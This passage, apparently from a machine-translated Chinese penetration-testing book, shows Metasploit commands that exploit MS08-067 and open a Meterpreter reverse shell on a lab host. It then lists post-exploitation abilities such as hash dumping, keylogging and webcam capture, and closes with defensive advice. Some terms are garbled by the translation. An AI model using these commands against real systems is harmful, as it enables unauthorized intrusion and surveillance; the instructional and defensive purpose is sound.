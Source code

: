    以下是输出：

    ![Detecting vulnerable hosts](graphics/3183OS_05_12.jpg)

9.  键入所有这些命令：

    *   `use exploit/windows/smb/ms08_067_netapi`：此命令将 Metasploit 框架设置为使用漏洞`ms08_067_netapi`
    *   `set RHOST 192.168.1.30`：此命令将远程主机设置为您正在利用的用户
    *   `set PAYLOAD windows/meterpreter/reverse_tcp`：此命令将有效负载设置为`reverse_tcp`因此，我们可以在攻击成功后连接回主机
    *   `set LHOST 192.16``8.1.5`：此命令设置本地主机，即 Kali Linux 主机的 IP 地址
    *   `exploit`：此命令实时启动攻击，以便您可以看到操作中的详细信息

10.  If you would like to run a different payload, use the command:

    ```
    show payloads

    ```

    在下面的屏幕截图中，我们可以看到前面输入的命令的输出：

    ![Detecting vulnerable hosts](graphics/3183OS_05_13.jpg)

    如果操作正确，我们应该有一个流量计外壳：

    ![Detecting vulnerable hosts](graphics/3183OS_05_14.jpg)

MeterMeter 外壳在您和被利用主机之间是一个完全独立的环境。它不需要运行，但它更像是一个概念证明，而不是其他任何东西。您可以执行程序、批处理脚本；浏览系统层次结构、哈希转储、网络配置；甚至可以从网络摄像机上拍摄快照。那么，如果有人能在你身上安装一个流量计，会发生什么呢？他们可以创建系统的后门并获得管理权。

祝贺我们已成功检测并利用无线网络上的易受攻击主机。从这里，我们可以查看目标系统上正在运行的进程、截图、记录击键，甚至可以查看连接的网络摄像头。流量计是一种非常强大的外壳。一定要花点时间好好看看。

![Detecting vulnerable hosts](graphics/3183OS_05_15.jpg)

# 防范威胁

我们总是需要知道如何保护自己免受这些威胁和攻击。接下来，我将讨论如何保护自己免受这些攻击。

## 防止主机识别

为了保护自己免受威胁和风险，小型和大型企业都应该有一个硬件防火墙，如 WatchGuard XTM 或 Cisco ASA，带有自定义规则来阻止未使用的服务和端口。还应从服务器或网络设备禁用未使用的服务，以防止任何未经授权的访问。启用短信或电子邮件警报的入侵检测系统。防火墙应该记录协议和标记警报。

如果防火墙或 ID 未被监控，那么您如何知道您的组织是否受到威胁？日常监控对于在外部网络上发现的威胁和风险保持领先非常重要。使用 VLAN 将网络彼此隔离。服务器、工作站、VoIP 和无线应具有自己的 VLAN，以使网络与网络感染和危害隔离。

## 阻止他人确定您的网络规模

在确定网络规模时，应始终加密任何敏感信息，如网络图、密码、日志、工作站和服务器信息以及配置设置。硬件防火墙（如 WatchGuard XTM 或 Cisco ASA）对于小型和大型企业来说都是一个很好的选择，可以通过阻止 ICMP 和只允许来自可信来源的流量来控制流量。

## 易受攻击主机的保护

为保护您的系统和网络设备免受攻击，请安装供应商提供的最新安全补丁。在最新的操作系统和软件更新可用时安装它们。如果升级时遇到冲突，请向软件供应商报告问题。使用具有复杂密码短语的最强无线加密 WPA2 和 AES 加密算法。在所有工作站和服务器上运行带有最新病毒定义的实时防病毒扫描程序。为员工提供安全意识培训。
